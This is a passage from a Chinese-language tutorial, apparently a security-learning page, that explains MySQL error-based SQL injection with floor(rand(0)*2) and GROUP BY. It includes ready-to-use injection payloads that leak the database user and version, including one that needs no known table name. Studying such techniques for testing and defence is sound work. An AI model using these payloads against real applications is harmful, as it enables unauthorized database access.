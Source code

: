 我们构建的`select`语句的结果是一个结果表，而`and`需要一个布尔值，也就是`0`或`非零`的值，所以我们需要再嵌套一个查询，由于`select` 的结果是一个结果表，那我们就可再从这个表执行查询，这不过这次select的值是非零数字：

```text
zhangsan' and(select 1 from (select count(*) ,concat(user(),floor(rand(0)*2))x from test.test group by x)a) --+
```

到此我们也就完成了我们的报错注入。

当然我们也发现，这个poc中需要知道数据库相应的表名`test.test` ，那么如果我们不知道关键表名或者关键表名被禁用了怎么办呢？

我们可以使用如下语句来进行注入：

`select count(*) from (select 1 union select null union select !1)a group by concat(version(),floor(rand(0)*2))`

![](../../../../.gitbook/assets/tu-pian%20%283%29.png)

换成POC：

`zhangsan' and(select 1 from (select count(*) from (select 1 union select null union select !1)a group by concat(version(),floor(rand(0)*2)))a) --+`

![](../../../../.gitbook/assets/tu-pian%20%287%29.png)

这里我们首先需要知道如下规则：

| 语句 | 含义 |
| :--- | :--- |
| UNION | 将多个不同的select语句执行的结果合并到一个结果集并返回 |
| SELECT 1; | 直接返回字面量1的值 |
| SELECT null; | 返回null本身的“值”。NULL是mysql中的一个常量，表示“没有值”，不是空字符串或0。 |
| SELECT !1 | 逻辑非，非真即假，mysql中使用数字值1、0代表true和false，可用“SELECT TRUE, FALSE;”验证 |

其次，我们也要清楚，`select` 可以当作运算器，例如：
